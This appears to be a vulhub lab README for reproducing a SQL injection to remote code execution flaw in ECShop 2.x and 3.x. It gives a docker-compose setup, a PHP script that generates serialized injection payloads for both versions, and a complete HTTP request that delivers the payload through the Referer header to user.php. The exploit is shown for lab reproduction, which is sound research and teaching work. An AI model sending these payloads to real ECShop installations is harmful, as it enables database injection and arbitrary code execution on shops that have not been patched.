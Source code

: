# ECShop 2.x/3.x SQL Injection / Remote Code Execution Vulnerability

[中文版本(Chinese version)](README.zh-cn.md)

ECShop is a B2C independent shop system for companies and individuals to quickly build personalized online store. This system is a cross-platform open source program based on PHP language and MYSQL database architecture.

In 2017 and previous versions, there was a SQL injection vulnerability that could inject payload and eventually lead to code execution vulnerabilities. The latest version of 3.6.0 has fixed the vulnerability, and vulhub uses its latest version 2.7.3 and 3.6.0 non-latest version versions to reproduce the vulnerability.

Reference link:

- http://ringk3y.com/2018/08/31/ecshop2-x代码执行/

## Environment construction

Run the following commands to start environment

```
docker-compose up -d
```

After the environment start, visit `http://your-ip:8080`, you will see the 2.7.3 installation page. Visit `http://your-ip:8081`, you will see the 3.6.0 installation page.

Install both of them, mysql address is `mysql`, mysql account and password are `root`, the database name is free to fill in, but the database names of 2.7.3 and 3.6.0 can not be the same. 

As the picture shows:

![](0.png)

## Expliot

There is a script that can generate POC for 2.x and 3.x:

```php
<?php
$shell = bin2hex("{\$asd'];phpinfo\t();//}xxx");
$id = "-1' UNION/*";
$arr = [
    "num" => sprintf('*/SELECT 1,0x%s,2,4,5,6,7,8,0x%s,10-- -', bin2hex($id), $shell),
    "id" => $id
];

$s = serialize($arr);

$hash3 = '45ea207d7a2b68c49582d2d22adf953a';
$hash2 = '554fcae493e564ee0dc75bdf2ebf94ca';

echo "POC for ECShop 2.x: \n";
echo "{$hash2}ads|{$s}{$hash2}";
echo "\n\nPOC for ECShop 3.x: \n";
echo "{$hash3}ads|{$s}{$hash3}";
```

Put POC in the HTTP-Referer:

```
GET /user.php?act=login HTTP/1.1
Host: your-ip
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:52.0) Gecko/20100101 Firefox/52.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Cookie: PHPSESSID=9odrkfn7munb3vfksdhldob2d0; ECS_ID=1255e244738135e418b742b1c9a60f5486aa4559; ECS[visit_times]=1
Referer: 45ea207d7a2b68c49582d2d22adf953aads|a:2:{s:3:"num";s:107:"*/SELECT 1,0x2d312720554e494f4e2f2a,2,4,5,6,7,8,0x7b24617364275d3b706870696e666f0928293b2f2f7d787878,10-- -";s:2:"id";s:11:"-1' UNION/*";}45ea207d7a2b68c49582d2d22adf953a
Connection: close
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0


```

Result of 2.x:

![](1.png)

Result of 3.x:

![](2.png)
